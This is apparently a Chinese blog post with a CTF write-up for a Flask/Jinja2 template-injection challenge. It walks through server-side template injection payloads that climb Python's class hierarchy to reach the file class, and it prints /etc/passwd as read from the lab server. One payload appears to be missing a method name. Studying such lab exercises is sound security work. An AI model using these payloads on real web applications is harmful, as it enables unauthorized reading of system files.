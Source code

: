```yaml
---
layout: post
title: Web进阶题-Web_python_template_injection
excerpt: "攻防世界进阶Web题目-Web_python_template_injection"
date:   2020-10-11 18:29:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 访问网站，网页正文为"python template injection"

2. 使用Wappalyzer Chrome扩展看出它使用了Flask框架，简单了解一下Flask框架的使用方法

3. 使用Burp Suite发起POST请求，服务器返回405，所以是通过GET方法传的参数，但是参数名网站一点信息都没有

4. 访问ip:port/\{\{"".\_\_class\_\_.\_\_bases\_\_\}\}，返回内容为/(\<type 'basestring'\>,)not found，并没有找到Object类

5. 访问ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_\}\}，返回内容为/(\<type 'str'\>, \<type 'basestring'\>, \<type 'object'\>) not found，找到了Object类，立刻通过它查找可用类

6. 访问ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()\}\}，共299个子类，其中第40号type(第41个)指向file类

   ```text
   /[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>.....................] not found
   ```

7. 访问ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[40].("/etc/passwd").read()\}\}，返回如下内容，可以看出目前可以正常读取文件，但是flag在什么位置仍未可知

   ```shell
   root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false _apt:x:104:65534::/nonexistent:/bin/false messagebus:x:105:110::/var/run/dbus:/bin/false 0:x:0:0:noone:/tmp:/sbin/nologin
   ```

